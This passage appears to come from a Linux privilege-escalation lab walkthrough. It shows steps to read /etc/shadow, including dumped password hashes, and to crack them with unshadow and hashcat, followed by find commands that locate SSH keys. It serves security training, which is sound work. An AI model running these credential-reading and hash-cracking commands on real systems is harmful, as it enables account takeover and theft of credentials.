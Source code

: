 3. In command prompt type: cat /etc/shadow
`
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:18431:0:99999:7:::
`

4. Save the output to a file on your attacker machine

Attacker VM

1. In command prompt type: unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt

Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.  For example:

hashcat -m 1800 unshadowed.txt rockyou.txt -O

## Privilege Escalation - SSH Keys 

Detection

Linux VM

1. In command prompt type:
find / -name authorized_keys 2> /dev/null
2. In a command prompt type:
find / -name id_rsa 2> /dev/null
3. Note the results.

Exploitation

Linux VM
